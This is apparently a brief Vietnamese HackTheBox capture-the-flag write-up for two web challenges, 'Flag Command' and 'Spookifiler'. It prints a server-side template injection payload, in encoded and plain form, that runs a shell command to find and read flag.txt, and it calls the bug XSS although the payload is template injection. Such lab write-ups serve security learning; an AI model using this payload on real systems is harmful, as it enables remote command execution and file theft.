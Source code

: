 # HackTheBox cha lìn
Clearrrrrr

## **Flag Command**

![image](https://github.com/user-attachments/assets/b2be85b8-d16f-4386-96a0-5ea0247667aa)


## **Spookifiler**

  Bài nhập ta thấy web in ra thông tin mà người dùng nhập vào, ý tưởng XSS

![image](https://github.com/user-attachments/assets/f745f97f-2d46-43df-b118-51cb769474a3)

Vậy là XSS hoạt động, ta tiếp tục injection: 
>${self.module.cache.util.os.popen(%27find%20/%20-type%20f%20-name%20%22flag.txt%22%20-exec%20cat%20{}%20\\;%27).read()}
>
>${self.module.cache.util.os.popen('find / -type f -name "flag.txt" -exec cat {} \\;').read()}


![image](https://github.com/user-attachments/assets/4a4bf63a-4b92-48f8-a624-43b6b9702e9b)

